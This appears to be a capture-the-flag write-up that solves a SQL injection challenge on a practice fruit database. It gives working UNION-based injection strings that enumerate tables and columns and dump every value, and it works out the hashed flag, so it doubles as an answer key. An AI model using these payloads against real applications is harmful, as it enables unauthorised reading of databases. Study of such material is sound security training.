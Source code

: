 # Make Your Selection 3

### Challenge

***This flag is the SHA256 hash of all column values from all tables from Make Your Selection 1. Order the values alphabetically by table name, then column name then value. goto clue for more info.***

Start with solution from Make Your Selection 1:

    xyz' UNION ALL SELECT name FROM sys.tables; --

now find column names for each table

    xyz' UNION ALL SELECT name FROM sys.columns where object_id = (select object_id from sys.tables where name = 'Fruit'); --
    xyz' UNION ALL SELECT name FROM sys.columns where object_id = (select object_id from sys.tables where name = 'FruitColor'); --    
    ...etc.

Now that you know all the column names, start selecting each column from each table:

    xyz' UNION ALL SELECT Id FROM Fruit order by 1; --
    xyz' UNION ALL SELECT FruitName FROM Fruit order by 1; --
    xyz' UNION ALL SELECT FruitGrowsOnId FROM Fruit order by 1; --
    xyz' UNION ALL SELECT FruitColorId FROM Fruit order by 1; --
    ...etc.

When you have all values from all columns of all tables just put them together in order of table name then column name then value. Notice this table shows the tables in alphabetical order, then their columns in alphabetical order, then the values in alphabetical order.


| Fruit.FruitColorID | Fruit.FruitGrowsOnID | Fruit.FruitName | Fruit.Id | Fruit.SeasonID| FruitColor.Color | FruitColor.Id | FruitGrowsOn.Id | FruitGrowsOn.PlantType | FruitSeason.Id | FruitSeason.Season|
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
|123456|111234|AppleBananaBlueberryGrapeOrangeStrawberry|133334|123456|BlueGreenOrangePurpleRedYellow|123456|1234|BushrunnerTreeVine|1234|FallSpringSummerWinter|

All together it evaluates to 123456111234AppleBananaBlueberryGrapeOrangeStrawberry133334123456BlueGreenOrangePurpleRedYellow1234561234BushrunnerTreeVine1234FallSpringSummerWinter

Finally, compute the SHA256 hash of that value. Use an online tool or your favorite programming language.

```
select 'Fruit.Id', CAST(Id as nvarchar(10)) from dbo.Fruit
union all select 'Fruit.FruitName',  FruitName from dbo.Fruit
union all select 'Fruit.FruitGrowsOnID', CAST(FruitGrowsOnID as nvarchar(200)) from dbo.Fruit
union all select 'Fruit.FruitcolorID', CAST(FruitColorID as nvarchar(200)) from dbo.Fruit
union all select 'Fruit.FruitSeasonID', CAST(FruitSeasonID as nvarchar(200)) from dbo.Fruit
union all select 'FruitColor.Id', CAST(Id as nvarchar(10)) from dbo.FruitColor
union all select 'FruitColor.FruitColor', Color from dbo.FruitColor
union all select 'FruitGrowsOn.Id', CAST(Id as nvarchar(10)) from dbo.FruitGrowsOn
union all select 'FruitGrowsOn.PlantType', PlantType from dbo.FruitGrowsOn
union all select 'FruitSeason.Id', CAST(Id as nvarchar(10)) from dbo.FruitSeason
union all select 'FruitSeason.Season', Season from dbo.FruitSeason
ORDER BY 1,2;
```
